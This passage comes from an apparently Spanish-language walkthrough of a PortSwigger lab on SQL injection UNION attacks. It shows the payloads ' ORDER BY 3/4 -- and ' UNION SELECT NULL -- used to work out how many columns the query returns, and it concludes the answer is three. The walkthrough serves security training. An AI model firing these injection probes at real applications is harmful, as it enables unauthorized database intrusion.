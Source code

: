```plaintext
' ORDER BY 3 --
```

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_determining_the_number_of_columns_returned_by_the_query/7.png" width="1000">
</p><br>

```plaintext
' ORDER BY 4 --
```

<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_determining_the_number_of_columns_returned_by_the_query/8.png" width="1000">
</p><br>

```plaintext
' ORDER BY 4 ----> Returns an error message.
```

Por lo tanto, el número de columnas devueltas por la consulta original es 3

## OPCIÓN 2

Enviando una serie de cargas útiles de UNION SELECT especificando un número diferente de valores nulos hasta que la aplicación proporcione un código de respuesta HTTP 200.

```plaintext
' UNION SELECT NULL --
```
<p align="center">
     <img src="/assets/images/portswigger/sql_injection_union_attack_determining_the_number_of_columns_returned_by_the_query/9.png" width="1000">
</p><br>
